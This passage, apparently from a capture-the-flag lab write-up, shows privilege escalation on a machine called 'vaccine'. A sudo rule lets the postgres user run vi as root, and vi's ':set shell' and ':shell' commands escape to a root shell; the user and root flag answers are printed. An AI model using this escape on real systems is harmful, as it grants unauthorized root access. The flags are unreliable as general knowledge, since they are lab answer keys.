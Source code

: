 Result
```
Matching Defaults entries for postgres on vaccine:  
env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR  
XFILESEARCHPATH XUSERFILESEARCHPATH",  
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,  
mail_badpass  
User postgres may run the following commands on vaccine:  
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

User has the ablility to vi as root in /etc/postgresql/11/main/pg_hba.conf

Command
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Result
>![[Pasted image 20220928072902.png]]

Use `:` to enter command

Command
```bash
:set shell=/bin/sh
```
```
:set shell
```

Result
```
# whoami  
root  
# id  
uid=0(root) gid=0(root) groups=0(root)  
#
```

Get get to bash
```
# cd /root  
# bash  
root@vaccine:~# ls  
root.txt  
root@vaccine:~#cat root.txt
```

---
## Flags
---
user.text
```bash
ec9b13ca4d6229cd5cc1e09980965bf7
```

root.txt
```
dd6e058e814260bc70e9bbdef2715849

```

---
## Tags
---
#ftp #sql #suid #johntheripper #zip2john #zip #sqlmap


